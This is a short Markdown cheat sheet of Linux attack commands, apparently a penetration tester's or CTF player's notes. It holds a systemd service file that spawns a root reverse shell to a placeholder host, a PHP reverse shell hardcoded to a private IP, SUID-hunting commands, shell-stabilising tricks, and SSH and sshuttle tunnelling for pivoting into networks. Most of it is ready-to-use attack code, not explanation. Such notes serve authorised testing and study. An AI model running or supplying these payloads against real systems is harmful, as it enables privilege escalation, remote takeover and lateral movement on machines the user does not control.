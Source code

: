 # Linux Hacking Cheatsheet

## Find SUID bits
`find / -perm -u=s -type f 2>/dev/null`
`find / -user root -perm -4000 -exec ls -ldb {} \;`

## Priv Esc systemctl with user access
_Create protection.service file in writable directory_
```
[Unit]
Discription=Does very important stuff mmmkay

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/YOURIP/YOURPORT 0>&1'

[Install]
WantedBy=multi-user.target
```

## Escaping no tty shell 
`/usr/bin/script -qc /bin/bash /dev/null`

_try ctrl + z_

`stty raw -echo`

`fg`

`export TERM=xterm #autocomplete`

## Find human readable strings in binary
`strings /usr/bin/menu`

## PHP reverse shell
```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/172.30.10.210/443 0>&1'");
```

## Grep IPs out of file
`grep -E -o "([0-9]{1,3}[\.]){3}[0-9]{1,3}" file.txt`

## Search for keyword
`grep -ri "word" /`

## Edit Wifi Connections
`nmtui`

_or_

`nmcli`

## Spin up webserver
`python -m SimpleHTTPServer 80`

## SSH Port Forwarding

`ssh -D localhost:9999 -f -N root@172.30.72.97 -p 40384`

__*edit proxychains .conf file to connect over socks5 127.0.0.1 9999__

_or_

~C "if you already have an SSH session"

-R 8081:172.24.0.2:80 (on my Kali machine listen on 8081, get it from 172.24.0.2:80)
<KALI 10.1.1.1>:8081<------------<REMOTE 172.24.0.2>:80
Now you can access 172.24.0.2:80, which you didn't have direct access to


-L 8083:127.0.0.1:8084 (on your machine listen on 8083, send it to my Kali machine on 8084)
<KALI 127.0.0.1>:8084<------------<REMOTE 10.1.1.230>:8083<------------<REMOTE X.X.X.X>:XXXX
run nc on port 8084, and if 10.1.1.230:8083 receives a reverse shell, you will get it

## sshuttle
`sshuttle --dns -vvr user@targetip -x targetip 0/0`